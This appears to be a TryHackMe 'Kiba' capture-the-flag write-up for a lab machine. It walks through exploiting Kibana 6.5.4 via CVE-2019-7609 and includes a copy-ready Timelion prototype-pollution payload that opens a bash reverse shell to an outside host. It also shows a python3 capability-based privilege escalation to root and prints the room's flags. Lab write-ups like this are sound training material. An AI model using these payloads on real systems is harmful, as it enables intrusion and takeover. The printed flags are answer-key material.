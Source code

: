 # kiba

## Task 1: Flags
If we try to access kibana through browser by IP address, we won't get direct access. It will display this page :

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/0fa7feb7-4810-44fd-aa97-1530bbab484f)

So through http port we can't get access of kibana. Thus, we will look for open ports of provided IP.

Initiate nmap scan to the provided IP.

`sudo nmap -p- 10.10.174.118`

As we can see the open ports through nmap scan, `5601/tcp` is the `esmagent` of Enterprise Service Management.

Give `<ip>:port` to access kibana. (`10.10.174.118:5601`)

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/7a3aab02-518c-4720-8b2f-4c21bc3bb4fb)

### 1. What is the vulnerability that is specific to programming languages with prototype-based inheritance?

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9bc44c56-7662-4b81-8ed3-b32a5dabe88c)

    Prototype Pollution
  
### 2. What is the version of visualization dashboard installed in the server?
In Kibana, go to Management tab 
There we can see the Version : 6.5.4 mentioned.
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/1b1b4e75-ccb3-4044-b392-7ee831cad2fe)

    6.5.4

### 3. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9bc44c56-7662-4b81-8ed3-b32a5dabe88c)

    CVE-2019-7609
    
### 4. Compromise the machine and locate user.txt
Copy this payload

    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i >& /dev/tcp/10.9.19.3/4444                      0>&1\'");//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

* Open `Timelion` in kibana and paste the payload in the provided box.
* Start a netcat listener

![03](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/f29fb475-b117-49b8-8935-655069cd21b0)

* Go to Canvas tab, we will get the response from reverse shell and we'll redirected to kiba directories.

![05](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/5a186195-a9a6-49bd-9959-75d39d9a0a3d)

        THM{1s_easy_pwn3d_k1bana_w1th_rce}
        
### 6. How would you recursively list all of these capabilities?

![07](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/f19f99be-1e64-4d4b-9e46-f083a7edd1ee)

![08](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/369f7e22-497f-463e-b95d-03b3b87e09e3)

        getcap -r/

### 7. Escalate privileges and obtain root.txt
* Traverse to ./hackmeplease/ directory
        
* Give command  `./python3 -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’`

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/d5f6f110-18c1-4147-872e-9cb106ea4c62)

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/794d592b-9799-405f-b3dd-600ba5827818)

        THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
    

